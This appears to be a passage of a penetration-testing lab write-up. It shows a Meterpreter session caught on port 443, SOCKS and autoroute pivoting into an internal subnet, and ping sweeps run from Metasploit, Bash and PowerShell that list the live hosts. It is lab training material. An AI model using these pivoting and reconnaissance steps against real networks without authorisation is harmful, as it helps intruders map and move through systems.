

I will create a Metepreter session for this machine and use it for pivoting thru Metasploit. After severaltests I succeded by using port 443, all the others were blocked(most likely by firewall/IDS/IPS):

```
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                   Information             Connection
  --  ----  ----                   -----------             ----------
  1         meterpreter x64/linux  riley @ 192.168.110.51  10.10.17.55:443 -> 10.10.110.35:29459 (::1)

msf6 exploit(multi/handler) >
```

Next we setup the socks server and the autoroute to reach the internal **192.168.110.0/24.**

****

Now we can start by Ping sweeping the internal network.

```
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.168.110.0/24
[+]     192.168.110.1 host found
[+]     192.168.110.55 host found
[+]     192.168.110.51 host found
[+]     192.168.110.52 host found
[+]     192.168.110.53 host found
[+]     192.168.110.54 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

We have 6 ip answering back, I will perform a ping sweep from Bash and with NMAP to confirm my findings.

```
riley@mail:/tmp$ for i in {1..254} ;do (ping 192.168.110.$i -c 1 -w 5  >/dev/null && echo "192.168.110.$i" &) ;done
192.168.110.1
192.168.110.51
192.168.110.53
192.168.110.52
192.168.110.54
192.168.110.55
```

Now that we have a list of IP i will start by enumerating every singular device and comparing this to a internal ping sweep show like there is another ip missing from the list the .56:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# 1..254 | % {"192.168.110.$($_): $(Test-Connection -count 1 -comp 192.168.110.$($_) -quiet)"}                                                                                                                                                               
192.168.110.1: True
192.168.110.51: True
192.168.110.52: True
192.168.110.53: True
192.168.110.54: True
192.168.110.55: True
192.168.110.56: True
```

&nbsp;

&nbsp;